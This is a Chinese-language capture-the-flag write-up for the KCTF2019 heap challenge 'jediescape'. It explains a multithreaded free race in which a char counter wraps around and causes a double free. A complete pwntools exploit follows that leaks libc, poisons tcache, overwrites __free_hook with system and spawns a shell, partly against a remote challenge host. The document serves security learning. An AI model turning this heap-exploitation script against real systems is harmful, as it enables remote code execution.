```yaml
---
title: 绝地逃生
categories:
- KCTF2019
---
```

# KCTF jediescape

## 前言

多线程的题，做题的时候漏洞没找到，记录一下

## 程序逻辑

程序有三个功能，分配，释放和输出。

![main](./1.jpg)

分配部分可以自己选择bss存储数组的index，size不能为0，之后输入数据

![malloc](./2.jpg)

Free部分读取的是一个范围start-end，释放的是start-end-1的chunk，这里start小于end且end不大于255，之后选择线程数量，通过start_routine函数进行释放

![free](./3.jpg)

![free2](./4.jpg)

start_routine函数里是一个循环，_InterlockedExchangeAdd8这个函数的功能是arg1指向的位置值+arg2，即*(end_index+8)+1。返回值为*(end_index+8)的初始值。看Free函数可以看到end_index2+8位置的v12是char类型，这意味着v12为255的时候，+1即变为0。

start_routine里每次执行这个函数，之后比较end_index和start_index，相等即退出，否则释放(bss数据不为空)

![start_routine](./5.jpg)

Puts函数在数组index处值不为空时输出

![puts](./6.jpg)

## 漏洞利用

这里利用的是start_routine的逻辑问题，我们取start为254，end为255，线程数为2。在第一个线程里，chunk_254被释放后变为255，执行函数，255+1变成了0，函数返回值为255，比较之后符合条件break。此时在第二个线程里*(end_index+8)的值为0，+1变为1，返回值为0，成功绕过了检查，相当于从0-254又释放了一遍，254的块double free。

在0位置处malloc一个0x90的堆，根据刚才的原理，0会被释放，之后放入unsorted bin，但是因为数据没有清空，可以Puts泄露Libc 

调试发现每个线程都有自己的thread_arena，即线程分配区。每次子线程结束的时候都会把tcache中的chunk放到对应大小的fastbin或者unsorted bin。这也导致我们不能用刚才那种最简单的方式(tcache加入fastbin的时候有重复检查，start可以选择253)

还有一个发现是malloc一个fastbin范围的内存时，如果tcache没有满，fastbin就会放入tcache中(晓晨师姐说之前0CTF还是LCTF有道类似的题,todo)，我们可以利用fast bin的double free修改其fd，再malloc的时候即可从tcache里分配到指定内存地址。

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 1
gadgets = [0x4f2c5,0x4f322,0x10a38c]

if debug:
    p = process('./fastheap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc_offset = 0x3ebc40
else:
    p = remote('152.136.18.34',10000)
    libc = ELF('./libc-2.27.so')
    libc_offset = 0x3ebc40


def Malloc(index,size,content):
    p.recvuntil('>>> ')
    p.sendline('1')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Contents: ')
    p.sendline(content)

def Free(start_index,end_index,workers):
    p.recvuntil('>>> ')
    p.sendline('2')
    p.recvuntil('Index range: ')
    p.sendline(str(start_index)+'-'+str(end_index))
    p.recvuntil('Number of workers: ')
    p.sendline(str(workers))

def Puts(index):
    p.recvuntil('>>> ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def Exit():
    p.recvuntil('>>> ')
    p.sendline('4')

def exp():
    Malloc(0,0x90,'0')

    for i in range(1,256):
        if i > 252:
            Malloc(i,0x60,str(i))
        else:
            Malloc(i,0x30,str(i))

    Free(253,255,2)#free 254 + [0,254]

    Puts(0)
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 96 - libc_offset
    log.success('libc base => ' + hex(libc_base)) 
    shell_addr = libc_base + libc.symbols['system']
    malloc_hook = libc_base + libc.symbols['__free_hook']
    fake_chunk = malloc_hook - 0x23
    log.success('malloc hook =>' + hex(malloc_hook))
    #get shell
    Malloc(253,0x60,p64(fake_chunk))
    Malloc(254,0x60,'1')
    Free(3,8,1)


    Malloc(3,0x60,'1')
    Malloc(4,0x60,'a'*0x23+p64(shell_addr))
    Malloc(5,0x10,'/bin/sh\x00')
    #trigger
    Free(5,6,1)
    


    p.interactive()
exp()

```

## 参考资料

[kctf_jackandkx](https://bbs.pediy.com/thread-252168.htm)
